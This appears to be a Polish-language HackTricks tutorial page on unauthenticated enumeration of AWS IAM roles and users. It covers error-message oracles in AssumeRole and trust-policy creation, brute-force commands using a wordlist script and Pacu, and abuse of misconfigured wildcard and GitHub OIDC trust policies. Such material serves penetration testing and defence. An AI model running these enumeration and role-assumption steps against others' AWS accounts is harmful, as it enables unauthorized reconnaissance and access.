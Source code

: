 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Enumeracja ról i nazw użytkowników w koncie

### ~~Brute-Force za pomocą Assume Role~~

{% hint style="danger" %}
**Ta technika już nie działa** ponieważ, niezależnie od tego, czy rola istnieje, czy nie, zawsze otrzymujesz ten błąd:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Możesz **przetestować to, uruchamiając**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Próba **przyjęcia roli bez niezbędnych uprawnień** wywołuje komunikat o błędzie AWS. Na przykład, jeśli brak uprawnień, AWS może zwrócić:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ta wiadomość potwierdza istnienie roli, ale wskazuje, że jej polityka przyjmowania ról nie pozwala na twoje przyjęcie. W przeciwieństwie do tego, próba **przyjęcia nieistniejącej roli prowadzi do innego błędu**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interesująco, ta metoda **rozróżniania między istniejącymi a nieistniejącymi rolami** ma zastosowanie nawet w różnych kontach AWS. Posiadając ważny identyfikator konta AWS i docelową listę słów, można enumerować role obecne w koncie bez napotkania jakichkolwiek wrodzonych ograniczeń.

Możesz użyć tego [skryptu do enumeracji potencjalnych głównych](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum) wykorzystując ten problem.

### Polityki zaufania: Brute-Force ról i użytkowników między kontami

Konfigurowanie lub aktualizowanie **polityki zaufania roli IAM polega na określeniu, które zasoby lub usługi AWS mają prawo przyjąć tę rolę** i uzyskać tymczasowe poświadczenia. Jeśli określony zasób w polityce **istnieje**, polityka zaufania zapisuje się **pomyślnie**. Jednak jeśli zasób **nie istnieje**, generowany jest **błąd**, wskazujący, że podano nieprawidłowego głównego.

{% hint style="warning" %}
Zauważ, że w tym zasobie możesz określić rolę lub użytkownika między kontami:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

To jest przykład polityki:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

To jest **błąd**, który znajdziesz, jeśli używasz **roli, która nie istnieje**. Jeśli rola **istnieje**, polityka zostanie **zapisana** bez żadnych błędów. (Błąd dotyczy aktualizacji, ale działa również podczas tworzenia)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Możesz zautomatyzować ten proces za pomocą [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Używając [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Rola `admin` użyta w przykładzie to **rola w twoim koncie, która ma być udawana** przez pacu, aby stworzyć polityki, które są potrzebne do enumeracji

### Privesc

W przypadku, gdy rola była źle skonfigurowana i pozwala każdemu na jej przyjęcie:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## Federacja OIDC osób trzecich

Wyobraź sobie, że udało ci się odczytać **Github Actions workflow**, który uzyskuje dostęp do **roli** w **AWS**.\
To zaufanie może dać dostęp do roli z następującą **polityką zaufania**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ta polityka zaufania może być poprawna, ale **brak dodatkowych warunków** powinien budzić twoje wątpliwości.\
Dzieje się tak, ponieważ poprzednią rolę może przejąć **KTOKOLWIEK z Github Actions**! Powinieneś również określić w warunkach inne rzeczy, takie jak nazwa organizacji, nazwa repozytorium, środowisko, gałąź...

Inną potencjalną błędną konfiguracją jest **dodanie warunku** takiego jak poniżej:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Zauważ, że **znak wieloznaczny** (\*) przed **dwukropkiem** (:). Możesz stworzyć organizację, taką jak **org\_name1** i **przyjąć rolę** z akcji Github.

## Odniesienia

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
